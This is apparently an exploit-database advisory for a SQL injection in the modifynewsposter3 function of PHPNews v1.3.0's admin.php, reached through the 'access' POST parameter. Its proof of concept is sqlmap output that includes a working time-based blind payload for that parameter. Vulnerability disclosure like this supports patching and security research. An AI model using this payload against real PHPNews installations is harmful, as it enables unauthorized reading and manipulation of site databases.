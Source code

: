 # Exploit Title: PHPNews v1.3.0 - Sql Injection(SQLi)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/newsphp/files/PHPNews%201._/PHPNews%201.3.0/phpnews_1-3-0.zip/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v1.3.0
## Exploit Description:
## PHPNews v1.3.0 suffers from SQLi - Sql Injection Vulnerability in modifynewsposter3 function in admin.php allowing attackers to execute arbitrary SQL commands via the access parameter in an HTTP POST request.

## ---------------------------------POC-----------------------------
```
POST parameter 'access' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 60 HTTP(s) requests:
---
Parameter: access (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=5&newusername=user4&username=user4&password=user4test&password2=user4test&email=user4@test.com&avatar=&language=en_GB&access=admin' AND (SELECT 7887 FROM (SELECT(SLEEP(5)))wKOI) AND 'zJbd'='zJbd
---
```
